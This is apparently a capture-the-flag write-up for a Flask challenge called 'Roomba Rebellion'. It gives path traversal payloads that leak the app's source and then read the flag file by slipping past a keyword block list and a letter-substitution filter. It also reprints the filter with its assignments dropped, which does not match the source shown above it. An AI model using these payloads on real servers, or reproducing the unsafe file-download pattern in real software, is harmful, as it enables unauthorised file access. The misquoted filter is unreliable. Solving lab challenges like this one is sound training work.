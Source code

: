## Roomba Rebellion

First, you can retrieve the source code using this payload: `../main.py`.

This yields the following source code:
```py
from flask import Flask, request, send_file, render_template
import os

def filter(filename: str) -> str:
    filename = filename.replace('R', 'f')
    filename = filename.replace('O', 'g')
    filename = filename.replace('O', 'h')
    filename = filename.replace('M', 'x')
    filename = filename.replace('B', 'j')
    filename = filename.replace('A', 'k')
    return filename

app = Flask(__name__)
BASE_DIR = os.path.abspath(os.path.dirname(__file__))

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/download')
def download():
    filename = request.args.get('file', '')
    if any(keyword in filename for keyword in ['g.t', 'flag.txt', 'txt', 'flag']):
        return "Roomba Error: Hacking DETECTED!!", 400
    
    filename = filter(filename)
    file_path = os.path.join(BASE_DIR, 'static', filename)
    try:
        return send_file(file_path)
    except Exception as e:
        return f"Roomba Error: {str(e)}", 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

Now, you need to bypass the filter:
```py
def filter(filename: str) -> str:
    filename.replace('R', 'f')
    filename.replace('O', 'g')
    filename.replace('O', 'h')
    filename.replace('M', 'x')
    filename.replace('B', 'j')
    filename.replace('A', 'k')
    return filename
```

## Final Payload

```
../RlaO.tMt
```

Use this payload to obtain the flag!